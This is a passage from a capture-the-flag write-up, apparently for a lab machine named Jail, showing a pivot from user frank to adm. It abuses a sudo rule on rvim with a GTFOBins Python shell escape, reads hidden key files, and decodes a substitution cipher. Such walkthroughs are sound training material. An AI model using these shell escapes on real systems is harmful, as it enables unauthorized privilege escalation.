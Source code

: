 After successfully executing a **user pivoting**, I perform again an enumeration of the system but with the new compromised account. The user **frank** can execute the `rvim` command impersonating the user **adm**, which already gives me an idea of how to execute another **user pivoting**, I only have to access the **[GTFObins](https://gtfobins.github.io/gtfobins/rvim/){:target="_blank"}** web to find the indicated command (**after several unsuccessful attempts**) that allows me to spawn a shell as the user **adm**. After a little digging I find in the **/var/adm** directory several files and folders and very interesting coded messages.

```bash
whoami
hostname -I
sudo -l
# (adm) NOPASSWD: /usr/bin/rvim /var/www/html/jailuser/dev/jail.c

sudo -u adm /usr/bin/rvim /var/www/html/jailuser/dev/jail.c
  :!/bin/bash
  :/bin/bash
  :set shell=/bin/bash
  :shell
# :(
  :py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")
# :)

whoami
hostname -I
cd /var/adm
cd .keys
cat note.txt
ls -la ./.local
cat ./.local/.frank
```

<br />
<img src="{{ site.img_path }}/jail_writeup/Jail_61.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jail_writeup/Jail_62.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jail_writeup/Jail_63.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/jail_writeup/Jail_64.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jail_writeup/Jail_65.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jail_writeup/Jail_66.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

The first thing I try to do is to extract one of the files I found, but I need the password to access a **root** user key (this is what I am informed on the screen). On the **[Cipher Identifier](https://www.dcode.fr/cipher-identifier){:target="_blank"}** page and also on the **[quipiup](https://quipqiup.com/){:target="_blank"}** page I succeed in decrypting the contents of one of the encrypted files (with a simple substitution algorithm) which gives me some clues to what I imagine is the password pattern of the compressed file. I will transfer the **keys.rar** file to my machine and also check its integrity with `md5sum` to verify its integrity.
